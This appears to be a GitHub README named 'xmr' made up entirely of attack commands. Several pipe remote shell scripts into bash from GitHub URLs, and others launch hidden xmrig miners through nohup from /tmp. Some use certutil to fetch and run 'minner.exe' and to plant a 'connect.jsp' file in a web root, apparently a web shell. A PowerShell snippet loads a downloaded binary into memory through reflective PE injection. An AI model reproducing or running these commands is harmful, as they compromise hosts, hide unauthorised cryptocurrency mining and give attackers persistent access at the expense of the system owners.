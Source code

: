 # xmr
bash <(curl -s -L https://raw.githubusercontent.com/Pamentierx/xmr/main/xmr2.sh)

bash <(curl -s -L https://raw.githubusercontent.com/Pamentierx/xmr/main/zayting2.sh)
wget -q -O- https://raw.githubusercontent.com/Pamentierx/xmr/main/zayting2.sh | bash

bash <(curl -s -L https://raw.githubusercontent.com/uxbug/ant/master/ant)


./xmrig -o 127.0.0.1:8989 -u worker2 -p xx -t 1 -B --cpu-priority 3 --cpu-max-threads-hint=40% --nicehash

./xmrig -o 127.0.0.1:8989 -u worker2 -p xx -t 1 --cpu-priority 3 --cpu-max-threads-hint=40% --nicehash

certutil -urlcache -split -f https://github.com/Pamentierx/xmr/raw/main/minner.exe && minner.exe

certutil -urlcache -split -f https://raw.githubusercontent.com/Pamentierx/xmr/main/connect.jsp x:\webapps\root\connect.jsp

nohup ./ &


nohup ./tmp/.xmr/xmrig >/dev/null 2>&1 &
nohup /tmp/zayting >/dev/null 2>&1 &

$b = ((New-Object System.Net.webClient).DownloadString("https://github.com/Pamentierx/xmr/raw/main/minner.exe"))
$c = [System.Convert]::FromBase64String($b)
Invoke-ReflectivePEInjection -PEBytes $c
